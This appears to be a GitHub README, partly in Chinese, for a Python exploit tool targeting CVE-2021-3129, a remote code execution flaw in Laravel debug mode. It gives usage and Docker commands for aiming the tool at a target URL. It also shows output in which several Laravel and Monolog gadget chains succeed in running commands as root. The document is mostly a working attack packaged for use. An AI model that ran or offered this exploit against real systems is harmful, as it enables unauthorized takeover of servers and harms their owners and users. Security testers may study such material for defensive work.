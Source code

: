 # CVE-2021-3129
Laravel &lt;= v8.4.2 debug mode: Remote code execution (CVE-2021-3129)

修改了@crisprss师傅的 https://github.com/crisprss/Laravel_CVE-2021-3129_EXP 增加了更多可用的 gadget 用于遍历

Use：
```
python3 exp.py http://127.0.0.1:8888
```

效果：
![images](https://github.com/zhzyker/CVE-2021-3129/blob/main/2021-02-18_13-46.png)
```
zhzy@debian:/opt/tools/vuln/laravel/CVE-2021-3129/phpggc$ python3 exp.py http://127.0.0.1:8888
[*] Try to use Laravel/RCE1 for exploitation.
[+]exploit:
[*] Laravel/RCE1 Result:


[*] Try to use Laravel/RCE2 for exploitation.
[+]exploit:
[*] Laravel/RCE2 Result:


[*] Try to use Laravel/RCE3 for exploitation.
[+]exploit:
[*] Laravel/RCE3 Result:


[*] Try to use Laravel/RCE4 for exploitation.
[+]exploit:
[*] Laravel/RCE4 Result:


[*] Try to use Laravel/RCE5 for exploitation.
[+]exploit:
[*] Laravel/RCE5 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Laravel/RCE6 for exploitation.
[+]exploit:
[*] Laravel/RCE6 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Laravel/RCE7 for exploitation.
[+]exploit:
[*] Laravel/RCE7 Result:


[*] Try to use Monolog/RCE1 for exploitation.
[+]exploit:
[*] Monolog/RCE1 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Monolog/RCE2 for exploitation.
[+]exploit:
[*] Monolog/RCE2 Result:

uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)

[*] Try to use Monolog/RCE3 for exploitation.
[+]exploit:
[*] Monolog/RCE3 Result:


[*] Try to use Monolog/RCE4 for exploitation.
[+]exploit:
[*] Monolog/RCE4 Result:

```

# RUN

```
docker build . -t cve-2021-3129
docker run --rm -it cve-2021-3129 "http://<IP>:<PORT>"
```